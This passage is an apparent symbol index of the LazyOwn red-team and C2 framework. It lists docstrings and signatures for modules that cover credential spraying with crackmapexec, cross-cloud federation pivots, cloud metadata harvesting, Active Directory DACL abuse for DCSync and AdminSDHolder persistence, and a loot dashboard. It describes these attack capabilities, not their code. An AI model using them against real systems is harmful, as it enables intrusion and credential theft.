prevent spam. Inspired by Mythic's eventing system but implemented natively.  Usage ----- from modules.conditional_hooks import HookEngine  engine = HookEngine() engine.add_rule({ \"name\": \"auto-seatbelt-on-beacon\", \"trigger\": {\"event\": \"beacon_connected\"}, \"actions\": [{\"type\": \"run_command\", \"command\": \"seatbelt -group=all\"}], \"cooldown_seconds\": 300, }) engine.fire(\"beacon_connected\", {\"client_id\": \"abc123\"})", "id": "modules/conditional_hooks.py", "kind": "module", "label": "conditional_hooks.py", "language": "py", "sha256": "a0bba851358b0110", "symbol_count": 23, "symbols": [{"doc": "A single WHEN->THEN rule.", "kind": "class", "line": 45, "name": "HookRule", "signature": "class HookRule"}, {"doc": "Match events against rules and execute matching actions.\n\nUsage::\n\n    engine = HookEngine()\n    engine.fire(\"beacon_connected\", {\"client_id\": \"abc\", \"platform\": \"windows\"})\n\nRules are loaded from ``sessions/conditional_hooks.json`` with\nbuilt-in defaults as fallback.", "kind": "class", "line": 258, "name": "HookEngine", "signature": "class HookEngine"}, {"doc": "Return the singleton :class:`HookEngine`.", "kind": "function", "line": 586, "name": "get_hook_engine", "signature": "def get_hook_engine()"}, {"kind": "method", "line": 56, "name": "can_fire", "signature": "def can_fire(self, now)"}, {"kind": "method", "line": 65, "name": "mark_fired", "signature": "def mark_fired(self)"}, {"kind": "method", "line": 69, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 270, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Register a handler for a custom action type.\n\nArgs:\n    action_type: String identifier (e.g. ``\"run_command\"``).\n    handler: Callable receiving ``(action: dict, context: dict)``.", "kind": "method", "line": 277, "name": "register_action_handler", "signature": "def register_action_handler(self, action_type, handler)"}, {"doc": "Set placeholder values for command templating (rhost, lhost, etc.).", "kind": "method", "line": 286, "name": "set_placeholders", "signature": "def set_placeholders(self, placeholders)"}, {"doc": "Load rules from JSON file, or create it with defaults.\n\nArgs:\n    path: Optional path to rules JSON. Defaults to sessions/conditional_hooks.json.", "kind": "method", "line": 290, "name": "load_rules", "signature": "def load_rules(self, path)"}, {"doc": "Persist current rules to JSON.", "kind": "method", "line": 322, "name": "save_rules", "signature": "def save_rules(self, path)"}, {"doc": "Add a rule at runtime.\n\nArgs:\n    rule_dict: Dictionary with HookRule fields.\n\nReturns:\n    The new :class:`HookRule`.", "kind": "method", "line": 330, "name": "add_rule", "signature": "def add_rule(self, rule_dict)"}, {"doc": "Remove a rule by name.\n\nReturns:\n    True if removed, False if not found.", "kind": "method", "line": 345, "name": "remove_rule", "signature": "def remove_rule(self, name)"}, {"doc": "Enable or disable a rule by name.", "kind": "method", "line": 359, "name": "enable_rule", "signature": "def enable_rule(self, name, enabled)"}, {"doc": "Check if a rule's trigger matches the given event and context.\n\nSupports field-level matching: if the trigger specifies ``port: 80``,\nit only matches when ``context.port == 80``.\n\nSuffix keys:\n    ``key_contains``: substring match (case-insensitive).\n    ``key``: exact match (case-insensitive for strings).\n    ``key`` as list: context value must be in the list (case-insensitive for strings).", "kind": "method", "line": 369, "name": "_match_trigger", "signature": "def _match_trigger(self, rule_trigger, event, context)"}, {"doc": "Replace {key} placeholders with shell-safe values from context or globals.\n\nValues are wrapped with shlex.quote() to prevent shell injection\nwhen the resolved command is executed with shell=True.", "kind": "method", "line": 414, "name": "_resolve_placeholders", "signature": "def _resolve_placeholders(self, text, context)"}, {"doc": "Execute a single action and return its result.", "kind": "method", "line": 428, "name": "_execute_action", "signature": "def _execute_action(self, action, context)"}, {"doc": "Execute a shell command via the run_command infra if available.", "kind": "method", "line": 467, "name": "_execute_shell_command", "signature": "def _execute_shell_command(self, command, context)"}, {"doc": "Run a command locally via subprocess.\n\nArgs:\n    command: Shell command string to execute.\n\nReturns:\n    Captured stdout, stderr, or None on failure.", "kind": "method", "line": 476, "name": "_execute_local_command", "signature": "def _execute_local_command(command)"}, {"doc": "Trigger credential reuse engine analysis.", "kind": "method", "line": 500, "name": "_execute_cred_reuse", "signature": "def _execute_cred_reuse(self, context)"}, {"doc": "Fire an event, evaluating all matching rules.\n\nArgs:\n    event: Event type (must be in ``_VALID_EVENTS``).\n    context: Key-value data about the event.\n\nReturns:\n    List of dicts with ``rule``, ``action``, and ``result`` keys.", "kind": "method", "line": 516, "name": "fire", "signature": "def fire(self, event, context)"}, {"doc": "Return all rules as dictionaries.", "kind": "method", "line": 571, "name": "list_rules", "signature": "def list_rules(self)"}, {"doc": "Return a single rule by name, or None.", "kind": "method", "line": 575, "name": "get_rule", "signature": "def get_rule(self, name)"}]}, {"doc": "Thread-safe singleton facade over core.config for payload.json.  Contract: preserves the get_config/set_config/reload_config API while delegating all file parsing and atomic persistence to core.config. This removes the duplicated JSON load and dump logic without changing behavior.", "id": "modules/config_store.py", "kind": "module", "label": "config_store.py", "language": "py", "sha256": "cacbc7b198fc709a", "symbol_count": 11, "symbols": [{"doc": "Initialise the config store (idempotent).\n\nParameters\n----------\npath  : path to payload.json (default: <project_root>/payload.json)\nwatch : if True, start a background thread that reloads on file change", "kind": "function", "line": 36, "name": "init", "signature": "def init(path, watch)"}, {"doc": "Return a config value (or the full dict when *key* is empty).\n\nAlways returns a deep copy so callers cannot mutate the cache.", "kind": "function", "line": 53, "name": "get_config", "signature": "def get_config(key, default)"}, {"doc": "Update one or more keys and persist to disk atomically.\n\nExample\n-------\n    set_config(rhost=\"10.10.10.10\", lport=4444)", "kind": "function", "line": 66, "name": "set_config", "signature": "def set_config()"}, {"doc": "Bulk-update from a dict and persist to disk.", "kind": "function", "line": 80, "name": "set_config_dict", "signature": "def set_config_dict(updates)"}, {"doc": "Force reload from disk (discards in-memory changes).", "kind": "function", "line": 90, "name": "reload_config", "signature": "def reload_config()"}, {"doc": "Stop the file-watcher background thread (if running).", "kind": "function", "line": 96, "name": "stop_watcher", "signature": "def stop_watcher()"}, {"doc": "Lazy-load on first access.", "kind": "function", "line": 106, "name": "_ensure_loaded", "signature": "def _ensure_loaded()"}, {"doc": "Load payload.json into _data via core.config. Caller must hold _lock.", "kind": "function", "line": 113, "name": "_load", "signature": "def _load()"}, {"doc": "Write _data back to disk via core.config. Caller must hold _lock.", "kind": "function", "line": 131, "name": "_persist", "signature": "def _persist()"}, {"doc": "Start background thread that reloads config when the file changes.", "kind": "function", "line": 143, "name": "_start_watcher", "signature": "def _start_watcher(interval)"}, {"kind": "function", "line": 148, "name": "_watch_loop", "signature": "def _watch_loop()"}]}, {"doc": "Credential Reuse Engine for LazyOwn.  Automatically suggests captured credentials for newly discovered hosts. When creds are found on host A, the engine ranks all other hosts by likelihood that the same creds will work, generating actionable spray recommendations with ready-to-run crackmapexec commands.  Design ------ - Single Responsibility: score + rank credential reuse candidates - Taps StateManager for hosts/creds, WorldModel for confirmed/failed edges - Produces a sorted list of (cred, host, score, command) tuples - Score decays with subnet distance, service overlap, and prior failures", "id": "modules/credential_reuse.py", "kind": "module", "label": "credential_reuse.py", "language": "py", "sha256": "12ddaa49c0e49552", "symbol_count": 16, "symbols": [{"doc": "Scored credential-to-host reuse suggestion.", "kind": "class", "line": 32, "name": "ReuseCandidate", "signature": "class ReuseCandidate"}, {"doc": "Scoring engine for credential spraying prioritisation.\n\nUsage::\n\n    engine = CredentialReuseEngine()\n    candidates = engine.rank(\n        hosts=[\"10.0.0.1\", \"10.0.0.2\", \"10.0.1.5\"],\n        creds=[{\"username\": \"admin\", \"password\": \"P@ssw0rd\", \"host\": \"10.0.0.1\"}],\n    )\n    for c in candidates:\n        print(f\"Try {c.username}:{c.password} against {c.target_host} \"\n              f\"[score={c.score:.2f}]\")\n        print(f\"  {c.command}\")", "kind": "class", "line": 55, "name": "CredentialReuseEngine", "signature": "class CredentialReuseEngine"}, {"doc": "Return the singleton :class:`CredentialReuseEngine`.", "kind": "function", "line": 358, "name": "get_credential_reuse_engine", "signature": "def get_credential_reuse_engine()"}, {"kind": "method", "line": 43, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 80, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 85, "name": "_load_cache", "signature": "def _load_cache(self)"}, {"kind": "method", "line": 95, "name": "_save_cache", "signature": "def _save_cache(self)"}, {"doc": "Record that a credential did NOT work against a host.", "kind": "method", "line": 107, "name": "mark_failed", "signature": "def mark_failed(self, username, password, host)"}, {"doc": "Record that a credential worked against a host.", "kind": "method", "line": 112, "name": "mark_confirmed", "signature": "def mark_confirmed(self, username, password, host)"}, {"doc": "Return the CIDR prefix-length similarity between two IPs.\n\nReturns the longest prefix they share (0-32). Higher = closer.", "kind": "method", "line": 118, "name": "_subnet_distance", "signature": "def _subnet_distance(self, ip_a, ip_b)"}, {"doc": "Compute a reuse score (0.0-1.0) for (cred, host).\n\nScoring factors:\n- Same subnet: +0.4\n- Adjacent /24: +0.2\n- Confirmed on source: +0.3\n- Previously failed: -1.0 (instant reject)\n- SMB/445 open on target: +0.15\n- WinRM/5985 open on target: +0.1\n- Already confirmed: skip (return -1.0)", "kind": "method", "line": 144, "name": "_score_candidate", "signature": "def _score_candidate(self, username, password, source_host, target_host, target_services)"}, {"doc": "Generate the best crackmapexec command for the target.", "kind": "method", "line": 196, "name": "_build_command", "signature": "def _build_command(self, username, password, host, target_services)"}, {"doc": "Score all (cred, host) pairs and return top candidates.\n\nArgs:\n    hosts: Discovered target IP addresses.\n    creds: Credential dicts with ``username``, ``password``, ``host`` keys.\n    host_services: Optional mapping of host -> list of service dicts\n        (ports, protocols) for protocol-aware scoring.\n    limit: Maximum number of candidates to return.\n\nReturns:\n    Sorted list of :class:`ReuseCandidate`, highest score first.", "kind": "method", "line": 226, "name": "rank", "signature": "def rank(self, hosts, creds, host_services, limit)"}, {"doc": "Convenience: rank creds using hosts and creds from StateManager.\n\nArgs:\n    state_manager: An instance of :class:`StateManager`.\n    limit: Max candidates.\n\nReturns:\n    Sorted list of :class:`ReuseCandidate`.", "kind": "method", "line": 278, "name": "suggest_from_state_manager", "signature": "def suggest_from_state_manager(self, state_manager, limit)"}, {"doc": "Convenience: rank creds using hosts and creds from WorldModel.\n\nArgs:\n    world_model: An instance of :class:`WorldModel`.\n    limit: Max candidates.\n\nReturns:\n    Sorted list of :class:`ReuseCandidate`.", "kind": "method", "line": 308, "name": "suggest_from_world_model", "signature": "def suggest_from_world_model(self, world_model, limit)"}, {"doc": "Format candidates as a human-readable summary string.", "kind": "method", "line": 338, "name": "get_summary", "signature": "def get_summary(self, candidates)"}]}, {"doc": "Cross-cloud identity paths — multi-cloud identity federation abuse.  Implements attack paths that bridge cloud providers through identity federation: Azure AD -> AWS (SAML federation), GCP -> Azure (OIDC federation), multi-cloud metadata harvesting, and cross-cloud service account impersonation through workload identity federation.  Allows attackers to pivot from one cloud to another using federated identities, expanding compromise radius across multi-cloud environments.", "id": "modules/cross_cloud.py", "kind": "module", "label": "cross_cloud.py", "language": "py", "sha256": "9b4fdedbd1df16e4", "symbol_count": 10, "symbols": [{"doc": "Configuration for cross-cloud identity attacks.\n\nAttributes:\n    source_cloud: Source cloud provider (aws, azure, gcp).\n    target_cloud: Target cloud provider.\n    azure_tenant_id: Azure AD tenant ID.\n    aws_account_id: AWS account ID.\n    aws_role_arn: AWS IAM role ARN for federation.\n    gcp_project_id: GCP project ID.\n    gcp_workload_pool: GCP workload identity pool.\n    federation_metadata_url: SAML/OIDC metadata URL.", "kind": "class", "line": 30, "name": "CrossCloudConfig", "signature": "class CrossCloudConfig"}, {"doc": "Execute cross-cloud identity federation attacks.\n\nBridges identity providers across AWS, Azure, and GCP using SAML 2.0\nand OIDC federation to pivot between cloud environments.\n\nAttributes:\n    config: CrossCloudConfig with federation parameters.", "kind": "class", "line": 54, "name": "CrossCloudAttackEngine", "signature": "class CrossCloudAttackEngine"}, {"kind": "method", "line": 64, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Abuse Azure AD SAML federation to gain AWS access.\n\nIf Azure AD is configured as a SAML IdP for AWS IAM Identity Center\nor direct SAML federation, an attacker with Azure AD access can\nassume AWS IAM roles.\n\nReturns:\n    Dict with attack steps, commands, and required permissions.", "kind": "method", "line": 67, "name": "azure_saml_to_aws", "signature": "def azure_saml_to_aws(self)"}, {"doc": "Abuse GCP OIDC federation to gain Azure access.\n\nGCP workload identity federation allows GCP service accounts to\nauthenticate to Azure AD via OIDC and obtain Azure access tokens.\n\nReturns:\n    Dict with attack steps and token exchange commands.", "kind": "method", "line": 104, "name": "gcp_oidc_to_azure", "signature": "def gcp_oidc_to_azure(self)"}, {"doc": "Abuse AWS OIDC federation to gain GCP access.\n\nGCP Workload Identity Federation can trust AWS as an OIDC identity\nprovider. An attacker with AWS access can generate OIDC tokens\nto impersonate GCP service accounts.\n\nReturns:\n    Dict with AWS-to-GCP attack path.", "kind": "method", "line": 133, "name": "aws_oidc_to_gcp", "signature": "def aws_oidc_to_gcp(self)"}, {"doc": "Harvest metadata from all cloud providers simultaneously.\n\nUseful on multi-cloud or hybrid environments where workloads may\nhave access to multiple cloud metadata services.\n\nReturns:\n    Dict with multi-cloud metadata harvesting commands.", "kind": "method", "line": 167, "name": "multi_cloud_imds_harvesting", "signature": "def multi_cloud_imds_harvesting(self)"}, {"doc": "Exploit Entra ID to GCP workforce identity federation.\n\nMicrosoft Entra ID can serve as an identity provider for GCP\nworkforce identity federation. Compromising Entra ID accounts\nwith GCP federation grants GCP console/CLI access.\n\nReturns:\n    Dict with Entra-to-GCP attack steps.", "kind": "method", "line": 204, "name": "entra_id_to_gcp_workforce_federation", "signature": "def entra_id_to_gcp_workforce_federation(self)"}, {"doc": "Detect cross-cloud federation configurations for attack surface mapping.\n\nReturns:\n    Dict with detection commands per provider.", "kind": "method", "line": 234, "name": "detect_cross_cloud_federation", "signature": "def detect_cross_cloud_federation(self)"}, {"kind": "method", "line": 258, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "Operator-defined custom tools exposed to the autonomous loop.  Kinds: command -- shell line with ``{arg}`` substituted and executed through the streaming runner (guard/scope/constraints still apply). script  -- ``.sh`` runs with bash, anything else with python3. http    -- URL/body templates with ``{arg}`` posting through the notification URL allowlist.  The planner proposes matches as ``custom tool <name> <target>`` intents and the worker routes them to :func:`run_tool` in-process, so custom tools get the same trigger+command contract as the rest of the loop.", "id": "modules/custom_tools.py", "kind": "module", "label": "custom_tools.py", "language": "py", "sha256": "0e0a0f3f3d90d81a", "symbol_count": 11, "symbols": [{"doc": "Resolve the tool registry path through the lazy store layer.", "kind": "function", "line": 30, "name": "_store_file", "signature": "def _store_file()"}, {"doc": "Load the registry payload.", "kind": "function", "line": 37, "name": "_load", "signature": "def _load()"}, {"doc": "Persist the registry payload.", "kind": "function", "line": 45, "name": "_save", "signature": "def _save(payload)"}, {"doc": "Register or replace one custom tool.\n\nArgs:\n    name: Tool name used in intents.\n    kind: ``command``, ``script`` or ``http``.\n    target: Command line, script path or URL template.\n    description: Short text used for keyword matching.\n    method: HTTP method for ``http`` tools.\n    body: Request body template for ``http`` tools.\n    timeout: Execution timeout in seconds.\n    trigger: Comma/space separated service tokens (``http,https,smb``)\n        that make the loop propose this tool when the matching\n        service is discovered, exactly like ``tools/*.tool`` files.\n\nReturns:\n    Stored tool entry.\n\nRaises:\n    ValueError: Unknown kind or empty name/target.", "kind": "function", "line": 52, "name": "add_tool", "signature": "def add_tool(name, kind, target, description, method, body, timeout, trigger)"}, {"doc": "Delete a tool by name.", "kind": "function", "line": 97, "name": "remove_tool", "signature": "def remove_tool(name)"}, {"doc": "Return every registered tool.", "kind": "function", "line": 109, "name": "list_tools", "signature": "def list_tools()"}, {"doc": "Find one tool by name.", "kind": "function", "line": 114, "name": "get_tool", "signature": "def get_tool(name)"}, {"doc": "Normalize a comma/space separated trigger string into tokens.", "kind": "function", "line": 122, "name": "_trigger_tokens", "signature": "def _trigger_tokens(raw)"}, {"doc": "Rank tools whose name/description/trigger keywords appear in the text.", "kind": "function", "line": 128, "name": "match_tools", "signature": "def match_tools(text, limit)"}, {"doc": "Execute one custom tool and return its transcript.\n\nArgs:\n    name: Tool name.\n    arg: Argument substituted into ``{arg}`` placeholders.\n    on_output: Optional live line observer.\n\nReturns:\n    Captured output or an ``execution failed:`` transcript line.", "kind": "function", "line": 151, "name": "run_tool", "signature": "def run_tool(name, arg, on_output)"}, {"doc": "Execute an http custom tool through the URL allowlist.", "kind": "function", "line": 179, "name": "_run_http", "signature": "def _run_http(tool, arg, on_output)"}]}, {"doc": "modules/cve_matcher.py ======================= CVE lookup via NVD API 2.0 (no key required for basic queries).  Rate limits: Without key : 5 requests / 30 s With key    : 50 requests / 30 s  (set NVD_API_KEY env var)  Results are cached on disk under sessions/cve_cache/ (TTL: 1 hour).  Usage: from modules.cve_matcher import CVEMatcher  m = CVEMatcher() for cve in m.search(\"openssh\", \"8.4\"): print(cve.id, cve.cvss, cve.description[:80])  # CLI: python3 modules/cve_matcher.py --product openssh --version 8.4 [--max 10] [--json]", "id": "modules/cve_matcher.py", "kind": "module", "label": "cve_matcher.py", "language": "py", "sha256": "d1908c3152d0742f", "symbol_count": 12, "symbols": [{"kind": "class", "line": 51, "name": "CVEResult", "signature": "class CVEResult"}, {"doc": "Lookup CVEs for a given product/version using the NVD REST API 2.0.\n\nParameters\n----------\napi_key   : NVD API key (optional, falls back to NVD_API_KEY env var).\ncache_dir : directory for on-disk result cache.", "kind": "class", "line": 60, "name": "CVEMatcher", "signature": "class CVEMatcher"}, {"doc": "Return (or create) the module-level singleton CVEMatcher.", "kind": "function", "line": 198, "name": "get_matcher", "signature": "def get_matcher()"}, {"doc": "Module-level convenience wrapper.", "kind": "function", "line": 206, "name": "search", "signature": "def search(product, version, max_results)"}, {"kind": "method", "line": 70, "name": "__init__", "signature": "def __init__(self, api_key, cache_dir)"}, {"doc": "Search CVEs by product / version keywords.", "kind": "method", "line": 82, "name": "search", "signature": "def search(self)"}, {"doc": "Search CVEs by CPE 2.3 string.", "kind": "method", "line": 89, "name": "search_by_cpe", "signature": "def search_by_cpe(self, cpe_name, max_results)"}, {"kind": "method", "line": 95, "name": "_cache_path", "signature": "def _cache_path(self, params)"}, {"kind": "method", "line": 100, "name": "_load_cache", "signature": "def _load_cache(self, params)"}, {"kind": "method", "line": 112, "name": "_save_cache", "signature": "def _save_cache(self, params, results)"}, {"kind": "method", "line": 121, "name": "_rate_limit", "signature": "def _rate_limit(self)"}, {"kind": "method", "line": 128, "name": "_query", "signature": "def _query(self)"}]}, {"doc": "DACL/SACL abuse module — ACL manipulation for AD privilege escalation.  Identifies and exploits dangerous Access Control Entries (ACEs) in Active Directory object security descriptors. Covers ownership takeover, AdminSDHolder abuse, ACL inheritance manipulation, and DCSync rights assignment.  Allows privilege escalation by abusing misconfigured DACLs to grant DCSync, reset passwords, add group memberships, or modify GPO links.", "id": "modules/dacl_abuse.py", "kind": "module", "label": "dacl_abuse.py", "language": "py", "sha256": "8955496b71873fca", "symbol_count": 15, "symbols": [{"doc": "A single Access Control Entry in an AD object's DACL/SACL.\n\nAttributes:\n    ace_type: ACCESS_ALLOWED, ACCESS_DENIED, etc.\n    trustee_sid: SID of the principal granted the permission.\n    access_mask: Bitmask of granted rights.\n    flags: Inheritance flags.\n    object_type: GUID of the specific attribute right.\n    inherited_object_type: GUID for inheritance scoping.", "kind": "class", "line": 67, "name": "ACEntry", "signature": "class ACEntry"}, {"doc": "An AD object with exploitable ACEs.\n\nAttributes:\n    distinguished_name: DN in AD.\n    sam_account_name: sAMAccountName (or name for non-users).\n    object_sid: Security identifier.\n    object_type: user, group, computer, gpo, ou, domain.\n    interesting_aces: ACEs that grant abuse primitives.\n    abuse_techniques: List of applicable abuse techniques.\n    severity: critical, high, medium, low.", "kind": "class", "line": 91, "name": "ACLTarget", "signature": "class ACLTarget"}, {"doc": "Identify and exploit dangerous DACL/SACL entries on AD objects.\n\nAnalyzes BloodHound or LDAP ACL data to find exploitable permission\npaths and generates exploitation plans for each abuse primitive.\n\nAttributes:\n    domain: Target domain FQDN.\n    domain_sid: Domain SID.\n    acl_data: Raw ACL data from BloodHound or LDAP.\n    targets: Discovered exploitable ACL targets.\n    attack_chains: Generated attack chains.", "kind": "class", "line": 113, "name": "DACLAbuseEngine", "signature": "class DACLAbuseEngine"}, {"kind": "method", "line": 136, "name": "__init__", "signature": "def __init__(self, domain, domain_sid, acl_data)"}, {"doc": "Parse BloodHound edge data to extract exploitable ACLs.\n\nArgs:\n    edges: List of BloodHound edge dicts with ACL data.\n\nReturns:\n    List of ACLTarget objects.", "kind": "method", "line": 143, "name": "parse_bloodhound_acls", "signature": "def parse_bloodhound_acls(self, edges)"}, {"doc": "Parse raw ACE data from ntSecurityDescriptor parsing.\n\nArgs:\n    raw_nthashes: List of dicts with object DN and ACE list.\n\nReturns:\n    List of ACLTarget objects.", "kind": "method", "line": 182, "name": "parse_raw_aces", "signature": "def parse_raw_aces(self, raw_nthashes)"}, {"doc": "Generate exploitation plans for all discovered ACL targets.\n\nReturns:\n    List of attack chain dicts with commands and prerequisites.", "kind": "method", "line": 224, "name": "compute_attack_chains", "signature": "def compute_attack_chains(self)"}, {"doc": "Generate an AdminSDHolder abuse plan.\n\nAdminSDHolder's ACL is propagated every 60 minutes to all protected\ngroups. Modifying its DACL is a stealthy persistence technique.\n\nArgs:\n    target_sid: SID of the attacker-controlled account.\n\nReturns:\n    Dict with abuse instructions and commands.", "kind": "method", "line": 291, "name": "adminsdholder_abuse_plan", "signature": "def adminsdholder_abuse_plan(self, target_sid)"}, {"doc": "Generate a DCSync rights assignment plan.\n\nGrants DS-Replication-Get-Changes and DS-Replication-Get-Changes-All\nextended rights to an attacker-controlled account on the domain root.\n\nArgs:\n    target_sid: SID to grant DCSync rights to.\n    domain_dn: Domain distinguished name.\n\nReturns:\n    Dict with DCSync assignment commands.", "kind": "method", "line": 318, "name": "dcsync_rights_assignment_plan", "signature": "def dcsync_rights_assignment_plan(self, target_sid, domain_dn)"}, {"doc": "Generate an ownership takeover plan.\n\nChanges the owner of an AD object to the attacker, then grants\nWriteDacl to modify permissions.\n\nArgs:\n    target_dn: Distinguished name of the target object.\n    attacker_sid: Attacker's SID.\n\nReturns:\n    Dict with owner takeover instructions.", "kind": "method", "line": 348, "name": "owner_takeover_plan", "signature": "def owner_takeover_plan(self, target_dn, attacker_sid)"}, {"kind": "method", "line": 379, "name": "_is_dangerous_ace", "signature": "def _is_dangerous_ace(ace)"}, {"kind": "method", "line": 384, "name": "_calculate_severity", "signature": "def _calculate_severity(target)"}, {"kind": "method", "line": 397, "name": "_guess_object_type", "signature": "def _guess_object_type(dn)"}, {"kind": "method", "line": 414, "name": "_extract_cn", "signature": "def _extract_cn(dn)"}, {"doc": "Return a summary of all DACL/SACL abuse findings.\n\nReturns:\n    Dict with target counts by severity, technique counts, and attack chains.", "kind": "method", "line": 418, "name": "summary", "signature": "def summary(self)"}]}, {"doc": "modules/dashboard_bp.py ======================== Real-time SOC dashboard as a Flask Blueprint.  Registration (one line in lazyc2.py after app creation): from modules.dashboard_bp import dashboard_bp app.register_blueprint(dashboard_bp)  Then visit: http://localhost:4444/dashboard/", "id": "modules/dashboard_bp.py", "kind": "module", "label": "dashboard_bp.py", "language": "py", "sha256": "ab712afb56182b1e", "symbol_count": 13, "symbols": [{"doc": "Reject unauthenticated access to every dashboard route.", "kind": "function", "line": 30, "name": "_require_login", "signature": "def _require_login()"}, {"doc": "Read a .jsonl file, optionally returning only the last N lines.", "kind": "function", "line": 71, "name": "_read_jsonl", "signature": "def _read_jsonl(path, last_n)"}, {"doc": "Read a JSON file; return empty dict on any error.", "kind": "function", "line": 93, "name": "_read_json", "signature": "def _read_json(path)"}, {"doc": "Count non-empty lines in a text file.", "kind": "function", "line": 103, "name": "_count_lines", "signature": "def _count_lines(path)"}, {"doc": "Build the full dashboard data snapshot from session files.\nReturns a structured dict consumed by both the HTML page (via JS fetch)\nand the /dashboard/api/data endpoint.", "kind": "function", "line": 113, "name": "_aggregate_data", "signature": "def _aggregate_data()"}, {"doc": "Render the main SOC dashboard HTML page.", "kind": "function", "line": 778, "name": "dashboard_index", "signature": "def dashboard_index()"}, {"doc": "JSON snapshot of all dashboard data.\n\nReads directly from sessions/ files so it can be used even without\nthe full lazyc2.py runtime context (e.g. during testing).", "kind": "function", "line": 784, "name": "dashboard_api_data", "signature": "def dashboard_api_data()"}, {"doc": "Collect non-comment lines from every sessions file matching ``pattern``.", "kind": "function", "line": 800, "name": "_read_loot_lines", "signature": "def _read_loot_lines(pattern)"}, {"doc": "Aggregate credentials, hashes and loot files from ``sessions/``.", "kind": "function", "line": 817, "name": "_read_loot", "signature": "def _read_loot()"}, {"doc": "Render the loot browser: captured credentials, hashes and files.", "kind": "function", "line": 902, "name": "dashboard_loot", "signature": "def dashboard_loot()"}, {"doc": "Return ``(sortable_iso, display)`` for epoch floats or CSV timestamps.", "kind": "function", "line": 913, "name": "_normalize_ts", "signature": "def _normalize_ts(raw)"}, {"doc": "Merge command log and events into one newest-first timeline.", "kind": "function", "line": 934, "name": "_read_timeline", "signature": "def _read_timeline()"}, {"doc": "Render the campaign timeline: commands and events, newest first.", "kind": "function", "line": 1017, "name": "dashboard_timeline", "signature": "def dashboard_timeline()"}]}, {"doc": "Live Network Map Dashboard for LazyOwn.  Provides a curses-based real-time visualization of: - Discovered hosts with service status - Kill-chain phase progression per host - Active exploit recommendations - Pivot chain topology - Beacon health indicators  Consumes data from WorldModel, ExploitRecommender, AutoPivotEngine, and EvasionEngine.", "id": "modules/dashboard_engine.py", "kind": "module", "label": "dashboard_engine.py", "language": "py", "sha256": "abbfc36d20289b03", "symbol_count": 16, "symbols": [{"doc": "Parse all scan_*.nmap.xml files and return {ip: [svc_dicts]}.", "kind": "function", "line": 39, "name": "_parse_nmap_xml_services", "signature": "def _parse_nmap_xml_services(sessions_dir)"}, {"kind": "class", "line": 99, "name": "DashboardNode", "signature": "class DashboardNode"}, {"kind": "class", "line": 111, "name": "DashboardEdge", "signature": "class DashboardEdge"}, {"doc": "Builds a live dashboard data model from campaign state.\n\nDoes NOT depend on curses directly — produces structured data suitable\nfor text-based rendering, JSON export, or TUI consumption.\n\nAttributes:\n    world_model: Optional reference to the campaign WorldModel.\n    sessions_dir: Path to the sessions directory.", "kind": "class", "line": 118, "name": "DashboardEngine", "signature": "class DashboardEngine"}, {"kind": "method", "line": 139, "name": "__init__", "signature": "def __init__(self, world_model)"}, {"kind": "method", "line": 148, "name": "set_world_model", "signature": "def set_world_model(self, model)"}, {"kind": "method", "line": 151, "name": "set_exploit_recommender", "signature": "def set_exploit_recommender(self, recommender)"}, {"kind": "method", "line": 154, "name": "set_auto_pivot", "signature": "def set_auto_pivot(self, pivot)"}, {"kind": "method", "line": 157, "name": "set_evasion_engine", "signature": "def set_evasion_engine(self, evasion)"}, {"doc": "Build a complete dashboard snapshot from all data sources.\n\nReturns:\n    Dict with keys: nodes, edges, stats, recommendations, pivots, beacons.", "kind": "method", "line": 160, "name": "build_snapshot", "signature": "def build_snapshot(self)"}, {"doc": "Render a text-based network map from a dashboard snapshot.\n\nArgs:\n    snapshot: Dashboard snapshot dict from build_snapshot().\n              Builds a fresh snapshot if None.\n\nReturns:\n    A multi-line ASCII-art network topology string.", "kind": "method", "line": 276, "name": "render_text_map", "signature": "def render_text_map(self, snapshot)"}, {"doc": "Render an ASCII-art topology tree from a snapshot.\n\nArgs:\n    snapshot: Dashboard snapshot dict from build_snapshot().\n\nReturns:\n    Multi-line ASCII topology string.", "kind": "method", "line": 358, "name": "render_ascii_topology", "signature": "def render_ascii_topology(self, snapshot)"}, {"kind": "method", "line": 398, "name": "_phase_icon", "signature": "def _phase_icon(phase)"}, {"doc": "Export dashboard snapshot as JSON string.\n\nArgs:\n    snapshot: Dashboard snapshot dict from build_snapshot().\n\nReturns:\n    JSON string.", "kind": "method", "line": 408, "name": "export_json", "signature": "def export_json(self, snapshot)"}, {"doc": "Persist dashboard snapshot to sessions/dashboard_snapshot.json.\n\nArgs:\n    snapshot: Dashboard snapshot dict from build_snapshot().\n\nReturns:\n    Path to the written file.", "kind": "method", "line": 421, "name": "persist_snapshot", "signature": "def persist_snapshot(self, snapshot)"}, {"doc": "Compact single-line status for CLI prompt integration.\n\nArgs:\n    snapshot: Dashboard snapshot dict from build_snapshot().\n\nReturns:\n    Short status string: \"[H:3 S:12 R:5 P:2 B:1]\"", "kind": "method", "line": 438, "name": "format_for_cli", "signature": "def format_for_cli(self, snapshot)"}]}, {"doc": "SQLite database layer for LazyOwn -- hosts, services, vulns, loot, creds, notes.  Mirrors the Metasploit ``db_*`` workflow with workspace isolation, nmap XML import, and queryable tables. Uses SQLite (zero deps) with a ``sessions/db/`` storage directory under the active session dir.", "id": "modules/db.py", "kind": "module", "label": "db.py", "language": "py", "sha256": "79ba6da44ee437f4", "symbol_count": 37, "symbols": [{"doc": "SQLite database for LazyOwn campaign state.\n\nThread-safe per-connection (SQLite serialises writes). Not safe to\nshare a single :class:`LazyOwnDB` instance across threads without\nexternal locking; use one connection per thread instead.\n\nArgs:\n    db_path: Path to the SQLite file. Defaults to\n        ``sessions/db/lazyown.db``.", "kind": "class", "line": 147, "name": "LazyOwnDB", "signature": "class LazyOwnDB"}, {"doc": "Get or create a :class:`LazyOwnDB` instance.\n\nThis is a convenience factory. The caller is responsible for calling\n:meth:`LazyOwnDB.close` when done.\n\nArgs:\n    db_path: Optional path to the SQLite file.\n\nReturns:\n    A new :class:`LazyOwnDB` instance.", "kind": "function", "line": 821, "name": "get_db", "signature": "def get_db(db_path)"}, {"kind": "method", "line": 159, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"doc": "Return a per-thread SQLite connection, creating it on first access.", "kind": "method", "line": 171, "name": "_get_conn", "signature": "def _get_conn(self)"}, 